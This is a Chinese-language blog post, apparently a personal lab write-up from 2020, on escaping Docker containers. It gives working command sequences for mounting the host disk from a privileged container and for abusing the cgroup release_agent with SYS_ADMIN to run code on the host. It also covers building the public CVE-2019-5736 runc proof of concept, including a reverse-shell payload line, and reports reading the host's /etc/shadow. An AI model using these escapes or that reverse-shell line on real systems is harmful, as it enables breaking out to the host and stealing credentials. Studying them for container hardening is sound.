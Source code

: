 ```yaml
---
title: Docker 逃逸了解
date: 2020-12-24 14:24:08
tags: Docker
---
```


# Docker 逃逸

## 判断是否在docker中

1. 是否存在 /.dockerenv  

![dockerenv](Docker-逃逸了解/2020-12-16-16-58-12.png)

2. 检查/proc/1/cgroup内是否包含"docker"等字符串  
![](Docker-逃逸了解/2020-12-16-16-58-58.png)



## --privileged 利用

```shell
sudo docker run -it --name test --privileged -d ubuntu:16.04 /bin/bash
sudo docker exec -it test bash
mkdir /aa
mount /dev/sda1 /aa
ls /aa
```
aa 就是 宿主机的 根目录了  

![逃逸后根目录文件](Docker-逃逸了解/2020-12-16-16-48-08.png)  


## --cap-add=SYS_ADMIN 利用

将执行的命令写入到文件
```shell
# On the host
sudo docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:16.04 bash
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ls > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

![--cap-add=SYS_ADMIN利用](Docker-逃逸了解/2020-12-16-16-51-19.png)


## runc逃逸 条件就是可以自己在开一个终端 可以上传文件上去

1. 可以将文件上传到docker容器内
2. 需要再次exec 这个容器

首先创建一个 运行的容器  
`docker run -it --name taoyi -d centos:7 /bin/bash`  

然后编译poc

poc `https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go`  

可以修改成反弹shell `var payload = "#!/bin/bash \n bash -i /dev/tcp/127.0.0.1/1234 0>&1"`  

在PowerShell下 (cmd的话是 set GOOS="linux")  
 
```shell
$env:GOOS="linux"
$env:GOARCH="amd64"
go build .\main.go
```

生成linux下可执行文件 main 上传到 宿主机上 在使用docker cp到容器中 `docker cp main 容器名:/存放路径`  
这里为了演示直接cp进去 并赋予可执行权限  
在容器内运行 main 后再新开个shell 再次 docker exec 容器 则可触发  


容器中执行main  

![容器中执行main](Docker-逃逸了解/2020-12-24-11-44-34.png)  

新开个shellexec后  

![新开个shellexec后](Docker-逃逸了解/2020-12-24-11-46-01.png)

可以成功获取到 /etc/shadow 文件内容  
 
在这个版本下没有成功执行
```
Server: Docker Engine - Community
 Engine:
  Version:          19.03.4
  API version:      1.40 (minimum version 1.12)
  Go version:       go1.12.10

```

在Docker 18.09.2之前的版本中使用了的runc版本小于1.0-rc6，因此允许攻击者重写宿主机上的runc 二进制文件  


